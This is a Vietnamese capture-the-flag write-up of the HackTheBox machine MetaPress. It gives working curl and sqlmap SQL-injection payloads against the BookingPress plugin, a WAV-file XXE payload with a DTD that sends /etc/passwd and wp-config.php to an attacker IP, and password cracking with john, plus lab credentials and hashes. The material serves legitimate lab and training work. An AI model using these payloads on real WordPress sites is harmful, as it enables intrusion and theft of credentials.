## Task 1


Thực hiện quét chúng ta thu được


> 3
## Task 2


Chúng ta truy cập trang để thu thập thêm thông tin


> WordPress 5.6.2
## Task 3


Từ thống tin thu thập trên
> 8.0.24
## Task 4


Chúng ta đi recon thử công ở `/events` chúng ta tìm được plugin được đề cập, version 1.0.10


Version này của plugin thì bị dính **CVE-2022-0739**
### Flow điển hình trên WP:
```
Plugin vuln (unauth) → lấy creds/session
         ↓
WP Core vuln (auth) → đọc file nhạy cảm
         ↓
wp-config.php → DB/FTP creds → shell
```
## Task 5


> wp_users
## Task 6


Chúng ta đã biết Plugin sử dụng có dính CVE-2022-0739 giờ là đến lúc khai thác
### Bản chất lỗi
BookingPress plugin nhận input từ user qua AJAX **mà không sanitize** trước khi đưa vào SQL query.

**Flow bình thường:**
```
User browser → Click chọn dịch vụ booking
    → JS gửi AJAX request tới admin-ajax.php
    → action=bookingpress_front_get_category_services
    → Plugin nhận category_id, total_service
    → Plugin build SQL query → trả về danh sách dịch vụ
```

**Vấn đề nằm ở đâu?** (Code mình hoạ)
```php
// Pseudo-code minh họa lỗi
$total_service = $_POST['total_service'];

$query = "SELECT * FROM wp_bookingpress_services 
          WHERE category_id = ... 
          LIMIT $total_service";
//        ^^^^^^^^^^^^^^^^^^^^^^
//        Đưa thẳng user input vào SQL, KHÔNG escape!
```
Tham số `total_service` được **nối trực tiếp** vào câu SQL — không dùng `$wpdb->prepare()`, không cast sang integer, không filter gì cả.

Chúng ta thực hiện bắt `_wpnonce` sau đó craft request theo cấu trúc khai thác
```bash
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=1aefc93478&category_id=1&total_service=1' | jq
```
Kết quả trả về bình thường

Thử nghiệm với payload
```bash
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=1aefc93478&category_id=1&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' | jq
```
Xác nhận có chính xác bị lỗi SQL Injection, quét nhanh qua với sqlmap
```bash
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --method POST --data "action=bookingpress_front_get_category_services&_wpnonce=1aefc93478&category_id=1&total_service=1" -p total_service --level=5 --risk=3 --dbs
```
Chúng ta sẽ xác định được Database

Xác định table

Xác định người dùng thì chúng ta sẽ thu được 2 creds
```
admin \ $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager \ $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```
Chúng ta chỉ tìm được 1 pass của manager vì khả năng admin được sử dụng password phức tạp hơn


> partylikearockstar
## Task 7


Chúng ta tiến hành đăng nhập vào trang wordpress phần Media nhưng không có sẵn gì, khả năng phải nghiên cứu để upload lên và khai thác 
### CVE-2021-29447

**Bản chất lỗi:**
WordPress dùng thư viện **iXR** và **PHP's libxml** để parse XML metadata trong file media upload. Trên **PHP 8**, hàm `simplexml_load_string()` xử lý metadata trong file **WAV** có chứa XML → bị XXE (XML External Entity injection).

**Tại sao chỉ PHP 8?**
PHP 7 mặc định `libxml_disable_entity_loader(true)` → chặn external entity. PHP 8 **bỏ hàm này** (deprecated) → external entity được load lại → XXE hoạt động.
## Task 8


### Flow khai thác
```
WP parse WAV → gặp XML → load evil.dtd từ Kali
→ evil.dtd đọc /etc/passwd bằng php://filter
→ encode base64
→ gửi ngược về Kali qua HTTP request
```

### Khai thác
#### Bước 1 — Tạo file WAV chứa XXE payload:
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.14.245:8888/evil.dtd">%remote;%init;%trick;]>\x00' > evil.wav
```
Phân tích:
- `RIFF...WAVE` = header WAV hợp lệ để WP chấp nhận upload
- `iXML` = chunk metadata XML trong WAV
- DTD payload → gọi về server của bạn lấy evil.dtd

#### Bước 2 — Tạo file `evil.dtd` trên máy Kali:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOUR_IP:8888/?p=%file;'>">
```
#### Bước 3 — Mở HTTP server nhận data:
```bash
python3 -m http.server 8888
```
#### Bước 4 — Login WP bằng creds đã crack → Media → Upload evil.wav
#### Bước 5 — Check terminal 
Chúng ta sẽ thấy request chứa base64 của `/etc/passwd`

**Sau `/etc/passwd`, đổi target sang:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
```

→ Leak được `wp-config.php` → chứa **DB credentials** và có thể cả **FTP credentials**


> 9NYS_ii@FyL_p5M2NvJ
## Task 9


Chúng ta đã có tài khoản ftp rồi giờ hãy mở kiểm tra xem trong đây có gì

Thư mục mailer đáng ngờ nhất vì trong blog chứa các config của php thì chúng ta đã có thể lấy từ trên rồi

Download file send_email.php để đọc nội dung


Chúng ta thu được cred
```
jnelson \ Cb4_JmWM8zUZWMu@Ys
```
## User Flag
Thực hiện SSH với account thu được sẽ có user.txt

## Task 11


Từ hình ảnh home của user chúng ta sẽ được
> passpie
## Task 12


Chúng ta sẽ tìm được file key 

Nhưng chưa có dạng plaintext nên đem về máy attacker để crack xem sao
```bash
scp jnelson@metapress.htb:~/.passpie/.keys ./

# Xoá bớt thông tin giữ lại private key
gpg2john .keys > passpie.hash
john --wordlist=/usr/share/wordlists/rockyou.txt passpie.hash
```
Thu được master key


> blink182
## Task 13


Chúng ta đã có master key rồi nên trên target thực hiện dump cred
```
passpie export --passphrase 'blink182' /tmp/creds.txt
cat /tmp/creds.txt
```


> p7qfAZt4_A1xo_0x
## Root Flag
Bây giờ thì có root password rồi nên chỉ cần switch qua và đọc flag

